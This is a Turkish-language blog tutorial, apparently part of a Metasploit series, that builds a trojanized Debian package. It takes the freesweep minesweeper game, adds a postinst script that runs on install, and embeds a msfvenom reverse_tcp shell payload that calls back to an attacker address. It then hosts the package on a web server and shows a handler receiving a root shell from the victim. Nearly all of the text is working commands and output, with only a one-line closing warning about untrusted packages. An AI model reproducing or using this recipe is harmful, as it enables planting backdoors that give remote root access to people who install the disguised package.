 ```yaml
---
draft: false

title:  'MSF Binary Linux Trojan'
date: '2017-05-20T13:12:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için\_.exe\_uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda,\_.deb\_uzantılı bir dosya oluşturacağız." 
 
url:  /tr/msf-binary-linux-trojan/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için `.exe` uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda, `.deb` uzantılı bir dosya oluşturacağız.



Ubuntu işletim sistemini hedef alan bu dosyanın oluşturulması ilk olarak biraz karışık gelebilir ancak adımları teker teker inceleyerek devam ederseniz kavramak daha kolay olacaktır.



Öncelikle, içine payload yerleştireceğimiz bir programa ihtiyacımız var. Örnek olarak “Mine Sweeper” programını kullanalım.



## Paketi indirelim



Paketi `--download-only` parametresiyle indirdiğimizde, işletim sistemimize kurulmayacaktır. Daha sonra indirdiğimiz paketi üzerinde çalışmak üzere oluşturacağımız `/tmp/evil` klasörüne taşıyacağız.


```bash
root@kali:~# apt-get --download-only install freesweep
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~# mkdir /tmp/evil
root@kali:~# mv /var/cache/apt/archives/freesweep_0.90-1_i386.deb /tmp/evil
root@kali:~# cd /tmp/evil/
root@kali:/tmp/evil#
```



Artık `/tmp/evil` klasörünün içerisinde `freesweep_0.90-1_i386.deb` isimli bir Debian paketimiz var. İndirdiğiniz .deb uzantılı dosyanın ismi ve sürüm numarası farklı olabilir. İsmini `ls` komutuyla kontrol ederek örneklerdeki komutlara o şekilde uygulamalısınız.



## Paketi Açalım



Şimdi bu `.deb` uzantılı paketi, sıkıştırılmış bir dosyayı açmaya benzer şekilde açmamız gerekiyor. Bu paketi aşağıdaki komutla `/tmp/evil` klasörü içinde `work` klasörüne çıkartıyoruz. Ardından, bizim ilave edeceğimiz özelliklerin bulunacağı `DEBIAN` isimli bir klasörü `/tmp/evil/work` klasörü altına oluşturuyoruz.


```bash
root@kali:/tmp/evil# dpkg -x freesweep_0.90-1_i386.deb work
root@kali:/tmp/evil# mkdir work/DEBIAN
```



## control Dosyası oluşturalım



Debian klasörünün içerisinde `control` isimli bir dosya oluşturup içerisine aşağıdaki Metni yapıştırıp kaydediyoruz. Dosya içeriği aşağıdaki gibi `cat control` komutuyla kontrol ediyoruz.



**control** dosyası içeriği


```bash
Package: freesweep
Version: 0.90-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers **(**ubuntu-motu@lists.ubuntu.com**)**
Description: a text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works **in **any visual text display - **in **Linux console, **in **an xterm, and **in
 **most text-based terminals currently **in **use.
```



## postinst dosyası oluşturalım



Kurulum sonrası çalışması için ayrıca bir bash script dosyasına daha ihtiyacımız var. Yine yukarıdaki gibi `DEBIAN` klasörü içine `postinst` isimli bir dosya oluşturuyoruz. İçerisine aşağıdaki kod satırlarını yapıştırıyoruz.



**postinst** dosya içeriği


```bash
#!/bin/sh

sudo chmod 2755 /usr/games/freesweep_scores **&amp;&amp;** /usr/games/freesweep_scores &amp; /usr/games/freesweep &amp;
```



## Payload Oluşturalım



Şimdi içerisinde zararlı kodların olduğu dosyayı oluşturabiliriz. Bunun için aşağıdaki komutu kullanarak `linux/x86/shell/reverse_tcp` payload modülünü kullanacağız. Komut içerisinde `LHOST` ve `LPORT` olarak verdiğimiz değişkenleri kendiniz belirleyebilirsiniz.


```bash
root@kali:~# msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST**=**192.168.1.101 LPORT**=**443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 98 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 98
Payload size: 98 bytes
Saved as: /tmp/evil/work/usr/games/freesweep_scores
```



## Yeniden paketleme



Artık, `postinst` dosyamızı çalıştırılabilir hale getirip `.deb` paketini derleyebiliriz. Komut sonucunda oluşturulacak `work.deb` paketinin ismini `freesweep.deb` olarak değiştirip Apache Server klasörüne (`/var/www` veya `/var/www/html`) yükleyebiliriz. Artık dosyamız Web sunucuda indirilebilir durumdadır.


```bash
root@kali:/tmp/evil/work/DEBIAN# chmod 755 postinst
root@kali:/tmp/evil/work/DEBIAN# dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `freesweep' in `/tmp/evil/work.deb'.
root@kali:/tmp/evil# mv work.deb freesweep.deb
root@kali:/tmp/evil# cp freesweep.deb /var/www/
```



## Dinleyici Handler Oluşturma



Şimdi, bir tıklama veya çalıştırma ile gelecek bağlantı isteklerini dinlemek için dinleyici oluşturalım. Burada komuta vereceğimiz `LHOST` ve `LPORT` değerleri, payload oluştururken girilen değerler ile aynı olmalıdır.


```bash
root@kali:~# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 192.168.1.101; set LPORT 443; run; exit -y"
PAYLOAD **=>** linux/x86/shell/reverse_tcp
LHOST **=>** 192.168.1.101
LPORT **=>** 443
**[*********]** Started reverse handler on 192.168.1.101:443
**[*********]** Starting the payload handler...
```



## Sonuç



Herhangi bir kullanıcı, bu hazırladığımız `freesweep.deb` paketini indirip çalıştırdığında dinleme yapan `exploit/multi/handler` modülümüz hedef bilgisayarda oturum açacaktır.


```bash
ubuntu@ubuntu:~$ wget <a href="http://192.168.1.101/freesweep.deb">http://192.168.1.101/freesweep.deb</a>
ubuntu@ubuntu:~$ sudo dpkg -i freesweep.deb

**[*********]** Sending stage **(**36 bytes**)**
**[*********]** Command shell session 1 opened **(**192.168.1.101:443 -> 192.168.1.175:1129**)**

ifconfig
eth1 Link encap:Ethernet HWaddr 00:0C:29:C2:E7:E6
inet addr:192.168.1.175 Bcast:192.168.1.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:49 errors:0 dropped:0 overruns:0 frame:0
TX packets:51 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:43230 **(**42.2 KiB**)** TX bytes:4603 **(**4.4 KiB**)**
Interrupt:17 Base address:0x1400
...snip...

hostname
ubuntu
id
uid**=**0**(**root**)** gid**=**0**(**root**)** groups**=**0**(**root**)**
```



## Tavsiye



Görüldüğü gibi zararlı yazılımlar sadece Windows’a özel değildir. Linux kullanıcılarının da tıkla ve çalıştır programlara dikkatle yaklaşması gerekmektedir. Güvenilir olmayan kaynaklardan paket yüklememenizi tavsiye ediyoruz.
